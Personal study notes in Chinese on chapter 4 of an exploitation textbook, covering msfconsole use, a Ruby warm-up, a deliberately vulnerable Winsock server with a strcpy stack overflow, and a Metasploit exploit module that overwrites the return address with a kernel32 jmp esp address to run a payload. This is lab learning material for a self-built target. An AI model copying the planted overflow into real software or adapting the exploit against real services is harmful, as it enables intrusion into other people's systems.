

# notes abouter chapter 4
本章基本就是教怎么使用msfconsole的。
## from 4.3
shellcode测试：  
  
  
## from 4.4
Ruby 简要学习。  
首先hello world，这里有坑，t.rb要在msf_root/bin目录下创建，要到msf_root/bin的目录下打开msfconsole，然后输入的指令是：
```
ruby t.rb
```
如图：


## from 4.6
出发漏洞的server代码：
```
#include<iostream.h>
#include<winsock2.h>
#pragma comment(lib, "ws2_32.lib")
void msg_display(char * buf)
{
	char msg[200];
	strcpy(msg,buf);// overflow here, copy 0x200 to 200
	cout<<"********************"<<endl;
	cout<<"received:"<<endl;
	cout<<msg<<endl;
}
void main()
{
	int sock,msgsock,lenth,receive_len;
	struct sockaddr_in sock_server,sock_client;
	char buf[0x200]; //noticed it is 0x200
	WSADATA wsa;
	WSAStartup(MAKEWORD(1,1),&wsa);
	if((sock=socket(AF_INET,SOCK_STREAM,0))<0)
	{
		cout<<sock<<"socket creating error!"<<endl;
		exit(1);
	}
	sock_server.sin_family=AF_INET;
	sock_server.sin_port=htons(7777);
	sock_server.sin_addr.s_addr=htonl(INADDR_ANY);
	if(bind(sock,(struct sockaddr*)&sock_server,sizeof(sock_server)))
	{
		cout<<"binging stream socket error!"<<endl;
	}
	cout<<"**************************************"<<endl;
	cout<<" exploit target server 1.0 "<<endl;
	cout<<"**************************************"<<endl;
	listen(sock,4);
	lenth=sizeof(struct sockaddr);
	do{
		msgsock=accept(sock,(struct sockaddr*)&sock_client,(int*)&lenth);
		if(msgsock==-1)
		{
			cout<<"accept error!"<<endl;
			break;
		}
		else
		do
		{
			memset(buf,0,sizeof(buf));
			if((receive_len=recv(msgsock,buf,sizeof(buf),0))<0)
			{
				cout<<"reading stream message erro!"<<endl;
				receive_len=0;
			}
			msg_display(buf);//trigged the overflow 0X200>200
		}while(receive_len);
		closesocket(msgsock);
	}while(1);
	WSACleanup();
}
```  
这里就是buff设置了0x200，而display的是200，可能在display buff的时候出发栈溢出。
这里的exp：
```
#! /usr/bin/env ruby
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
    include Msf::Exploit::Remote::Tcp
    def initialize(info={})
        super(update_info(info,
            'Name' => 'failwest_test',
            'Platform' => 'win',
            'Targets' => [
                ['Windows 2000', {'Ret' => 0x7c86467b } ],
                ['Windows XP SP2',{'Ret' => 0x7c86467b } ]
                ],
            'Payload' => {
                'Space' => 200,
                'BadChars' => "\x00",
                }
            )
        )
    end    
    def exploit
        connect
        attack_buf = 'a'*200 + [target['Ret']].pack('V') + payload.encoded
        sock.put(attack_buf)
        handler
        disconnect
    end #end of exploit def
end
```
我使用了kernell32.dll里的jmp esp：0x7c86467b
使用验证，这里payloads无法使用，有空用linux下的msf再试一下：


至此chapter 4学习完毕。